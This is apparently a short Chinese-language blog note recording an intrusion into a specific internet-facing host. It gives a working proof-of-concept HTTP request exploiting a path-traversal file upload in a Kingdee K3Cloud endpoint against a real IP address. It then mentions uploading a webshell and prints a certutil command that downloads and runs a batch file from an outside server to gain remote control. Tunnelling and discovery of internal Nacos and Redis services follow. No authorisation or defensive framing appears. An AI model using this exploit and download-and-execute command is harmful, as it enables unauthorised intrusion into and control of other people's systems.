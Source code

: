 ```yaml
---
icon: pen-to-square
date: 2025-06-29
tags: 
title: 内网报告
category:
  - 项目
---
```

POC
```http
POST /k3cloud/SRM/ScpSupRegHandler HTTP/1.1
Host: 59.45.53.150:9888
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=zsqxokga
Accept-Encoding: gzip
Content-Length: 276

--zsqxokga
Content-Disposition: form-data; name="dbId_v"

.
--zsqxokga
Content-Disposition: form-data; name="FID"

2022
--zsqxokga
Content-Disposition: form-data; name="FAtt"; filename="../../../../uploadfiles/ccc.txt"
Content-Type: text/plain

ccc

--zsqxokga--
```

生成马
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250629095227.png)

上传成功
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250629095206.png)

```bash
certutil.exe -urlcache -split -f http://110.42.44.69:8084/swt C:\Users\Public\run.bat && C:\Users\Public\run.bat
```
上线命令

建立隧道，扫描内网


内网nacos服务
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250629100811.png)


发现内网redis数据库